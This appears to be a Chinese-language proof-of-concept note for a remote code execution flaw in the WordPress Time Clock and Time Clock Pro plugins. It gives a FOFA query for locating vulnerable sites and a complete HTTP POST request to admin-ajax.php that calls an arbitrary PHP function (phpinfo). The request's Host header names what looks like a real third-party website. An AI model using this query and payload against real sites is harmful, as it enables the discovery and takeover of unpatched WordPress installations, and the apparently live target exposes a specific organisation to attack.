


### 漏洞背景

WordPress和WordPress plugin都是WordPress基金会的产品。WordPress是一套使用PHP语言开发的博客平台。该平台支持在PHP和MySQL的服务器上架设个人博客网站。WordPress plugin是一个应用插件。WordPress plugin Time Clock plugin and Time Clock Pro 1.2.2版本及之前版本存在代码注入漏洞，该漏洞源于包含一个远程代码执行。

### fofa查询语句

> body="/wp-content/plugins/time-clock/" || body="/wp-content/plugins/time-clock-pro/"



### 漏洞复现

- 漏洞链接：https://xx.xx.xx.xx/wp-admin/admin-ajax.php?action=etimeclockwp_load_function

- 漏洞数据包：

```http
POST /wp-admin/admin-ajax.php?action=etimeclockwp_load_function HTTP/1.1
Host: staff.hempsteadtherapycentre.co.uk
Cookie: __wpdm_client=2344dd128af4f05a1dc3f452226884f7
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Priority: u=0, i
Te: trailers
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

function=phpinfo
```



****